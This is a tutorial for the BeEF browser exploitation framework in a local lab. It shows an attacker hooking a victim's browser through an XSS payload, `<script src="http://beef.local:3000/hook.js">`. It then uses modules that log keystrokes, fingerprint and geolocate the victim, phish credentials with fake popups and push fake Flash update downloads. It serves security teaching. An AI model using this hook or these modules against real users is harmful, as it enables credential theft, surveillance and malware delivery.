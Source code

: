 # BeEF Tutorial

This tutorial assumes you followed the [startup instructions](README.md) and
that the BeEF application is up and running, and can be reached at
[http://beef.local] as well as [http://vulnerable.local].

Let's see what you can do with BeEF: This tutorial will show you, as an
attacker, what you can do to a victim, by exploiting a Cross-Site Scripting
vulnerability.

## Attacker's point of view (1)

First, let's log onto the administrative panel by going to
[http://beef.local:3000/ui/panel] Enter here the login credentials (the default
username / password is `beefadmin` / `difficultpassword`).

This is the view point of the attacker. At the left hand there's an overview
with Hooked Browsers: clients that can be controlled by the BeEF framework. When
starting up, this will be empty.

## Victim's point of view

For the victim's point of view, open a *new browser window*. Let's now surf to a
vulnerable site which automatically contains a Cross-Site Scripting exploit
payload. In real life this would be a vulnerable site, where an attacker managed
to exploit a Cross-Site Scripting vulnerability.

[http://vulnerable.local:3000/demos/basic.html]

So now you're visiting a vulnerable website, *which automatically has been
'exploited' for demonstration purposes*: a payload has been added.

The payload contains a hook to the attacker's BeEF instance: `<script
src="http://beef.local:3000/hook.js">`. What does this do? Well, this ensures
that the web site *is hooked* onto the BeEF application.

Remember you're visiting the site
[http://vulnerable.local:3000/demos/basic.html] . Try to enter something in the
form field.

## Attacker's point of view (2)

Switching back to [http://beef.local:3000/ui/panel] , at the left hand you can
see that a victim is online: a browser is currently hooked. From this moment on,
the attacker controls all of the web content in the
[http://vulnerable.local:3000] tab. Click in the left hand on the browser in the
`vulnerable.local` domain.

On the active tab *Details* you can see all kinds of information about the
victim: The operating system for example, but also screen resolution for
example, settings, and enabled browser plugins.

Select the tab *Logs*. Here you can see what the victim did during the session.
All entered text as well as mouse and keyboard commands are visible. So
everything that a user now enters at the site [http://vulnerable.local:3000]
will be intercepted and sent to the site of the attacker.

### Fingerprint the victim

First let's fingerprint the browser, so the victim can be followed. Select the
*Commands* tab. This is where the majority of actions will be performed.

Search for *fingerprint*, and click on the *Fingerprint Browser* module. Now, in
the rightmost side of the screen you can click on *Execute*. This will execute
the selected command.

In the *Module Results History* section, an entry appears, with the selected
command. If you click on the command, which will have label *command 1*, you
will see the results at the right hand side.

Search for *geolocation* and select the *Get Geolocation (Third Party)* module.
In the rightmost side, select for example the `https://ipinfo.io/json` API. If
you now click on *Execute*, the attacker will find out where the victim,
visiting [http://vulnerable.local:3000], will be located.

### Trick the victim

Next the attacker can trick the victim into divulging secrets. Search for
*Pretty Theft* and execute that module. The victim will now see a popup, asking
to enter a username and password. This is how credentials can be stolen.

For another example, search for *Fake* and select the *Fake Flash Update*
module. This will send a convincingly looking update notification. As soon as
the victim clicks **anywhere**, a file will be downloaded. The payload itself
can be modified in the web interface.

For another example, search for *Notification* and select the *Fake Notification
Bar (Chrome)* module. This will send a notification to the victim. If the victim clicks
on the notification, it will download a binary file.
Note that this step will fail (the binary file isn't present on our Attacker
server), but this will demonstrate how easy it is to trick victims.

### GOD exploit

For the ultimate exploit, search for *rick* and select the *Redirect Browser
(Rickroll)* module. Execute this module, and the victim will be shown the
infamous Rick Astley video.

Of course these are all benign examples, but imagine what a skilled attacker can
do, having such control over the victim's browser and ultimately security of its
operating system.
